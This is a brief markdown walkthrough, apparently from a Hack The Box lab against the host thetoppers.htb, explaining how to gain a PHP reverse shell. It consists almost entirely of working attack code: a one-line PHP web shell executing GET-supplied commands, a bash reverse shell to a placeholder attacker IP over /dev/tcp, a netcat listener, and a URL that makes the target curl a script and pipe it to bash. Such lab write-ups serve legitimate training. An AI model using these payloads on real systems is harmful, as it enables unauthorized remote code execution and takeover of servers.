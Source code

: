 ## Php reverse shell

First we find a way of injecting a file on the remote server that allows us execture commands, for example:

	<?php system($_GET["cmd"]); ?>

Then create the revershell file:

	#!/bin/bash
	bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/1337 0>&1

Then we start a server listing on our machine:

	nc -nvlp 1337

And ont the same directory of the reverse shell file we start a web server to serve that file:

	python3 -m http.server 8000

Now we connect to our serve:

	http://thetoppers.htb/shell.php?cmd=curl%20<YOUR_IP_ADDRESS>:8000/shell.sh|bash

And We receive a reverse shell on the corresponding listening port.
